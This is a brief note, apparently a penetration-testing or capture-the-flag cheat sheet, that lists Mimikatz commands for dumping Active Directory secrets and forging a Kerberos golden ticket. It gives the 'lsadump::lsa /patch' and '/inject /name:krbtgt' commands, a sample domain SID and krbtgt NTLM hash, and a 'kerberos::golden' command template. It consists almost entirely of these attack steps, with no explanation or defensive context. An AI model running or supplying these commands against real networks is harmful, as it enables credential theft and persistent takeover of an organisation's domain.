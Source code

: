 lsadump::lsa /patch

golden ticket
lsadump::lsa /inject /name:krbtgt (this gives info)

SID :S-1-5-21-849420856-2351964222-986696166
HASH: 5508500012cc005cf7082a9a89ebdfdf

kerberos::golden /user: /domain: /sid: /krbtgt: /id: